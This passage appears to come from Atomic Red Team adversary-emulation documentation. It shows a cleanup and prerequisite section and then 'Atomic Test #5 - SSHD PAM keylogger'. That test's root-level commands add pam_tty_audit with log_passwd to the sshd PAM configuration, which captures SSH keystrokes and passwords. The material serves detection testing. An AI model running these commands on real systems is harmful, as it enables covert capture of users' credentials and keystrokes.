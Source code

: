 #### Cleanup Commands:
```sh
rm #{output_file}
```



#### Dependencies:  Run with `sh`!
##### Description: This test requires to be run in a bash shell
##### Check Prereq Commands:
```sh
if [ "$(echo $SHELL)" != "/bin/bash" ]; then echo -e "\n***** Bash not running! *****\n"; exit 1; fi
```
##### Get Prereq Commands:
```sh
echo ""
```




<br/>
<br/>

## Atomic Test #5 - SSHD PAM keylogger
Linux PAM (Pluggable Authentication Modules) is used in sshd authentication. The Linux audit tool auditd can use the pam_tty_audit module to enable auditing of TTY input and capture all keystrokes in a ssh session and place them in the /var/log/audit/audit.log file after the session closes.

**Supported Platforms:** Linux


**auto_generated_guid:** 81d7d2ad-d644-4b6a-bea7-28ffe43becca





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_account | Basic ssh user account for testing. | String | ubuntu|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
cp -v /etc/pam.d/sshd /tmp/
echo "session required pam_tty_audit.so disable=* enable=* open_only log_passwd" >> /etc/pam.d/sshd
systemctl restart sshd
systemctl restart auditd
ssh #{user_account}@localhost 
whoami
sudo su
whoami
exit
exit
```
